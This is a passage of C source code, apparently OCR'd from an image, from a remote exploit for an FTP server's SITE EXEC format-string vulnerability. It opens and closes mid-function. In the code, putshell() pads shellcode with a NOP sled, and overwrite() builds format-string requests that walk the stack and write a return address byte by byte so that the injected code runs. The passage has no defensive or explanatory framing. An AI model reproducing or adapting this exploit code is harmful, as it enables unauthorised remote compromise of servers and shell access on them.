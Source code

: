         repl;

        return off;
    }

    char *putshell(type)
    int type;
    {
        static char buf[400];
        int noplen;

        char *code = targ[type].code;

        noplen = sizeof(buf) - strlen(code) - 2;

        memset(buf, 0x90, noplen);
        buf[noplen+1] = '\0';
        strcat(buf, code);

        return buf;
    }

    int overwrite(ptr, off, align, retloc, eipoff)
    long ptr, retloc;
    int off, align, eipoff;
    {
        int i, size = 0;
        char buf[100];

        fprintf(stderr, "RET: %p, RET location: %p,"
            " RET location offset on stack: %d\n",
            (void *)ptr, (void *)retloc, off);

        if (off >= 12)
        {

            strcpy(sendbuf, "SITE EXEC ");

            for (i=0;i<eipoff/8;i++) strcat(sendbuf, "%%.f");
            for (i=0;i<(off-eipoff-8)/8;i++) strcat(sendbuf, "%%d%%d");

            if (((off-eipoff-8) % 8) != 0) strcat(sendbuf, "%%d%%d");

            if (command(sendbuf) < 0)
                return -1;

            repl;

            size = strlen(recvbuf+4) - 2;

            repl;
        }

        fprintf(stderr, "Reply size: %d, New RET: %p\n", size,
            (void *)(ptr-size));

        strcpy(sendbuf, "SITE EXEC ");
        for (i=0;i<align;i++) strcat(sendbuf, "a");

        sprintf(buf, "%c%c%c%c", ((int)retloc & 0xff),
            (((int)retloc & 0xff00) >> 8),
            (((int)retloc & 0xff0000) >> 16),
            (((int)retloc & 0xff000000) >> 24));
